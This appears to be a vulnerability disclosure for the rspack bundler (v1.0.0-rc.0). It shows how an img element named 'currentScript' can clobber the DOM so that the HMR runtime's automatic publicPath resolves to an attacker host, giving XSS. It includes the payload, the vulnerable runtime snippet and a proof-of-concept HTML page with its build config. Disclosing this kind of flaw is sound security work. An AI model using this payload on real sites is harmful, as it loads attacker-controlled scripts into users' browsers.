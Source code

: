 ## rspack

### Meta

+ Library: rspack
+ Stars: 8.6K
+ Version: v1.0.0-rc.0
+ Fingerprint: N/A
+ Payload: ```<img name="currentScript" src="https://xxx.xxxx.xxx"></img>```
+ Impact: XSS
+ CVE: N/A
+ Status: Reported
+ Foundby: TheHulk
+ TheThing: None

### Library

URL: Self hosted

### Vulnerable Code Snippet

`crates/rspack_plugin_hmr/src/runtime/hot_module_replacement.js`
```javascript
(()=>{
        t.g.importScripts && (e = t.g.location + "");
        var e, r = t.g.document;
        if (!e && r && (r.currentScript && (e = r.currentScript.src),
        !e)) {
            var n = r.getElementsByTagName("script");
            if (n.length) {
                for (var o = n.length - 1; o > -1 && (!e || !/^http(s?):/.test(e)); )
                    e = n[o--].src
            }
        }
        if (!e)
            throw Error("Automatic publicPath is not supported in this browser");
        e = e.replace(/#.*$/, "").replace(/\?.*$/, "").replace(/\/[^\/]+$/, "/"),
        t.p = e
    }
    )()
```

## PoC

```
<!doctype html>
  <html lang="en"><head><meta charset="UTF-8">
  <meta http-equiv="X-UA-Compatible" content="IE=edge">
  <meta name="viewport" content="width=device-width,initial-scale=1.0">
  <title>Document</title>
</head>
<body>
  <div id="root"><img name="currentScript" src="https://xxx.xxx.xxx">
  <script defer src="./dist/main.bundle.js"></script>
  </div>
</body>
</html>
```

The `rspack.config.js` to generate the bundle can be found below. 

```
const rspack = require('@rspack/core');
const path = require('path');
/** @type {import('@rspack/cli').Configuration} */
module.exports = {
  entry: {
    main: './src/index.js',
  },
  output: {
    path: path.resolve(__dirname, 'dist'),
    filename: '[name].bundle.js',
    chunkFilename: '[id].bundle.js',
    publicPath: 'auto',
  },
  plugins: [
    new rspack.HtmlRspackPlugin({
      template: './poc.html',
    }),
  ],
  optimization: {
    splitChunks: {
      chunks: 'all',
    },
  },
};
```
